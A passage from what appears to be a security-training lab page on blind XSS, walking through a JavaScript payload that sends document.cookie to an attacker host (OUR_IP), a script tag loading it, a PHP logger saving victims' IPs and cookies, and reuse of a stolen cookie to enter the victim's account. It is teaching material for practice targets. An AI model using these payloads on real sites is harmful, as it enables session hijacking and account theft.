<p>Using any of the two payloads should work in sending us a cookie, but we'll use the second one, as it simply adds an image to the page, which may not be very malicious looking, while the first navigates to our cookie grabber PHP page, which may look suspicious.</p>
<p>We can write any of these JavaScript payloads to <code>script.js</code>, which will be hosted on our VM as well:</p>
<pre><code class="language-javascript">new Image().src='http://OUR_IP/index.php?c='+document.cookie
</code></pre>
<p>Now, we can change the URL in the XSS payload we found earlier to use <code>script.js</code> (<code>don't forget to replace OUR_IP with your VM IP in the JS script and the XSS payload</code>):</p>
<pre><code class="language-html">&lt;script src=http://OUR_IP/script.js&gt;&lt;/script&gt;
</code></pre>

<p>With our PHP server running, we can now use the code as part of our XSS payload, send it in the vulnerable input field, and we should get a call to our server with the cookie value. However, if there were many cookies, we may not know which cookie value belongs to which cookie header. So, we can write a PHP script to split them with a new line and write them to a file. In this case, even if multiple victims trigger the XSS exploit, we'll get all of their cookies ordered in a file.</p>
<p>We can save the following PHP script as <code>index.php</code>, and re-run the PHP server again:</p>
<pre><code class="language-php">&lt;?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key =&gt; $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?&gt;
</code></pre>
<p>Now, we wait for the victim to visit the vulnerable page and view our XSS payload. Once they do, we will get two requests on our server, one for <code>script.js</code>, which in turn will make another request with the cookie value:</p>
<pre><code class="language-shell-session">10.10.10.10:52798 [200]: /script.js
10.10.10.10:52799 [200]: /index.php?c=cookie=f904f93c949d19d870911bf8b05fe7b2
</code></pre>
<p>As mentioned earlier, we get the cookie value right in the terminal, as we can see. However, since we prepared a PHP script, we also get the <code>cookies.txt</code> file with a clean log of cookies:</p>
<pre><code class="language-shell-session">[!bash!]$ cat cookies.txt 
Victim IP: 10.10.10.1 | Cookie: cookie=f904f93c949d19d870911bf8b05fe7b2
</code></pre>
<p>Finally, we can use this cookie on the <code>login.php</code> page to access the victim's account. To do so, once we navigate to <code>/hijacking/login.php</code>, we can click <code>Shift+F9</code> in Firefox to reveal the <code>Storage</code> bar in the Developer Tools. Then, we can click on the <code>+</code> button on the top right corner and add our cookie, where the <code>Name</code> is the part before <code>=</code> and the <code>Value</code> is the part after <code>=</code> from our stolen cookie:</p>
<img class="website-screenshot" data-url="http://SERVER_IP:PORT/hijacking/index.php" src="/storage/modules/103/xss_blind_set_cookie_2.jpg"/>
<p>Once we set our cookie, we can refresh the page and we will get access as the victim:</p>
<img class="website-screenshot" data-url="http://SERVER_IP:PORT/hijacking/login.php" src="/storage/modules/103/xss_blind_hijacked_session.jpg"/>
<div class="my-3 p-3 vpn-switch-card" id="vpn-switch">
<p class="font-size-14 color-white mb-0">VPN Servers</p>
<p class="font-size-13 mb-0">
<i class="fas fa-exclamation-triangle text-warning"></i><span class="color-white ml-1">Warning:</span> Each
                    time you "Switch",
                    your connection keys are regenerated and you must re-download your VPN connection file.
                </p>
<p class="font-size-13 mb-0">
                    All VM instances associated with the old VPN Server will be terminated when switching to
                    a new VPN server. <br/>
